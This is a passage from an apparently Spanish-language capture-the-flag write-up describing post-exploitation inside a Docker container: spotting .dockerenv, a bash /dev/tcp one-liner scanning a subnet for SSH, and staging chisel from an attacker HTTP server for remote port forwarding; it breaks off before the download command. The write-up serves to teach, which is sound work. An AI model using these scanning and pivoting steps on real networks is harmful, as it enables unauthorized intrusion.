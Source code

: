 ```bash
www-data@3d56c33f6dd7:/var/www/html$ cd /
www-data@3d56c33f6dd7:/$ ls -la
```
```bash
total 72
drwxr-xr-x   1 root root 4096 Aug 24 15:25 .
drwxr-xr-x   1 root root 4096 Aug 24 15:25 ..
-rwxr-xr-x   1 root root    0 Aug 24 15:25 .dockerenv
drwxr-xr-x   1 root root 4096 Nov 18  2020 bin
drwxr-xr-x   2 root root 4096 Sep 19  2020 boot
drwxr-xr-x   5 root root  340 Aug 24 15:25 dev
drwxr-xr-x   1 root root 4096 Aug 24 15:25 etc
drwxr-xr-x   2 root root 4096 Sep 19  2020 home
drwxr-xr-x   1 root root 4096 Nov 18  2020 lib
drwxr-xr-x   2 root root 4096 Nov 17  2020 lib64
drwxr-xr-x   2 root root 4096 Nov 17  2020 media
drwxr-xr-x   2 root root 4096 Nov 17  2020 mnt
drwxr-xr-x   2 root root 4096 Nov 17  2020 opt
dr-xr-xr-x 155 root root    0 Aug 24 15:25 proc
drwx------   1 root root 4096 Nov 18  2020 root
drwxr-xr-x   1 root root 4096 Nov 18  2020 run
drwxr-xr-x   1 root root 4096 Nov 18  2020 sbin
drwxr-xr-x   2 root root 4096 Nov 17  2020 srv
dr-xr-xr-x  13 root root    0 Aug 24 15:25 sys
drwxrwxrwt   1 root root 4096 Aug 24 15:25 tmp
drwxr-xr-x   1 root root 4096 Nov 17  2020 usr
drwxr-xr-x   1 root root 4096 Nov 18  2020 var
```
Aquí podemos ver un fichero ```.dockerenv```, con lo que sabemos que estamos en un contenedor
Vemos la IP de nuestro equipo

```bash
www-data@3d56c33f6dd7:/$ hostname -I
10.255.0.4 172.18.0.3 10.0.0.3
```
Luego de esto ejecuto este comando para ver en que IPs de la red se encuentra activo el puerto 22(ssh)

```bash
www-data@3d56c33f6dd7:/$ for i in $(seq 1 24); do timeout 1 bash -c "echo "" > /dev/tcp/172.18.0.$i/22" 2>/dev/null && echo -e "\n[+] Host [172.18.0.$i] with port [22]\n"; done
```
Obteniendo lo siguiente:

```bash
[+] Host [172.18.0.1] with port [22]
```
El único host con el puerto 22 abierto es el equipo local (127.0.0.1:22), por lo que ahora usaremos chisel para efectuar un Remote Port Forwarding

Iniciamos un servicio http en nuestra máquina de atacante en la ruta donde tenemos chisel

```bash
~$> python3 -m http.server 80
```
Seguido de esto nos descargamos chisel en la máquina víctima, dentro del directorio ```/tmp```,  haciendo una petición a nuestra máquina con curl

